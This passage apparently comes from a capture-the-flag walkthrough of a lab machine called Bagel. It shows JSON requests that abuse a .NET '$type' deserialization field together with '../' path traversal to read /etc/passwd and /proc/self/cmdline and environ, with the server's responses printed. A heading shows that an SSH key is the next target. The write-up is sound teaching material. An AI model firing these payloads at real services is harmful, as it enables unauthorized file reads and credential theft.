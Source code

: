         "ReadFile": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }
    

It works! It create a `RemoveOrder` object with a `ReadFile` in it that has
`/etc/passwd`!

#### Read SSH Key

Just like with the previous file read, I can get the command line and
environment here:

    
    
    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/cmdline"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:23:21",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "dotnet\u0000/opt/bagel/bin/Debug/net6.0/bagel.dll\u0000",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }
    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/environ"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:23:08",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "LANG=en_US.UTF-8\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin\u0000HOME=/home/phil\u0000LOGNAME=phil\u0000USER=phil\u0000SHELL=/bin/bash\u0000INVOCATION_ID=f22816b43f6e4edbac23633fd856c9d7\u0000JOURNAL_STREAM=8:25239\u0000SYSTEMD_EXEC_PID=890\u0000",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }
    